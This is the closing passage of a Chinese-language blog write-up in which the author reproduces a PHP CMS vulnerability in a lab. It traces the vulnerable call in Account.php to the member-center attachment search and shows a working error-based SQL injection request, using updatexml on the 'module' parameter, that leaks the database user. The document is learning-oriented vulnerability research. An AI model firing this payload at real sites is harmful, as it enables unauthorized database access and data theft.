 该函数的调用点位于（`\diy\module\member\controllers\Account.php`）：

![](19.png)

对应的功能实际是前台用户中心—>基本管理—>附件管理的搜索功能，随便选择某个类别搜索后会看到这条请求：

```http
GET /index.php?s=member&c=account&m=attachment&module=photo&ext= HTTP/1.1
Host: 10.10.10.129
```

向`module`参数注入Payload果然出现了报错：

![](20.png)

但不知道为什么博客里的Payload这里复现失败了，不过已经知道是报错注入，我用了经典的Payload——`" or updatexml(1,concat(1,0x7e,user()),1);#`拼接入参数中，得到了数据库当前用户：

```http
GET /index.php?s=member&c=account&m=attachment&module=photo%22%20or%20updatexml(1,concat(1,0x7e,user()),1);%23&ext= HTTP/1.1
Host: 10.10.10.129
```

![](21.png)

第一次复现php代码漏洞，如有错误或忽略的地方，望各位师傅斧正。以后有时间了好好学一遍php语言，毕竟是世界上最好的语言（手动滑稽）。嗯~~还是先把Java Web搞懂吧！

![](4E6707F5.jpg)

## 参考文章

1. [https://www.jianshu.com/p/7cabf9ef2aad]()
2. [http://www.webbaozi.com/dmsj/111.html]()
3. [http://blog.sina.com.cn/s/blog_3edc5e2e0102w2oh.html]()
4. [https://www.cnblogs.com/wocalieshenmegui/p/5917967.html]()
5. [https://www.cnblogs.com/rickzhai/p/7896297.html]()
6. [https://blog.csdn.net/xin_y/article/details/79007986]()

